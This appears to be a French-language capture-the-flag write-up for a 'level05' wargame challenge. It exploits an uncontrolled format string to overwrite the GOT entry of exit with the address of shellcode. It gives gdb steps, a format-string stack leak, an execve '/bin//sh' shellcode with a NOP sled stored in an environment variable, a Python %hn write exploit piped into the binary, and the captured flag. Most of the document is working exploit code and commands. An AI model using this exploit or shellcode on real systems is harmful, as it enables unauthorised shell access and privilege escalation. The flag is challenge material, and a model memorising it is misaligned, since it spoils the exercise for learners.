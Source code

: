 1. On a un cas d'`Uncontrolled format string`, on va override la GOT pour pointer sur notre shellcode au lieu de la fonction exit.

   ```
   (gdb) b main
   (gdb) r

   (gdb) info functions exit
     0x08048370  exit

   (gdb) disas 0x08048370
     0x08048370 <+0>:	jmp    *0x80497e0

   $ ./level05
   %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x %x
   [...] 25207825 [...]
   # 10e
   ```
2. On va utiliser une variable d'environnement pour stocker le shellcode afin d'eviter son alteration par le `to_lowercase`.
   ```
   export SHELLCODE=`python -c 'print "\x90" * 128 + "\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"`

   gcc -m32 /tmp/addr.c -o /tmp/addr

   /tmp/addr
   0xffffd862
   ```

```
(python -c '''

import struct

exit_1 = struct.pack("I", 0x080497e0)
exit_2 = struct.pack("I", 0x080497e0 + 2)
sc_adr = int(raw_input(''), 16)
t = [0xffff & sc_adr, (0xffff0000 & sc_adr) >> 16]
a1 = min(t)
a2 = max(t)

exp = exit_1 + exit_2

p = lambda x: "%%%sx" % x

ret = exp + p(a1 - len(exp)) + "%1" + str(t.index(a1)) + "$hn" + p(a2 - a1) + "%1" + str(t.index(a2)) + "$hn"

exit(1) if any([i > 64 and i < 91 for i in ret]) else 1

print ret
'''; cat;) | ./level05
```

> Flag: h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq
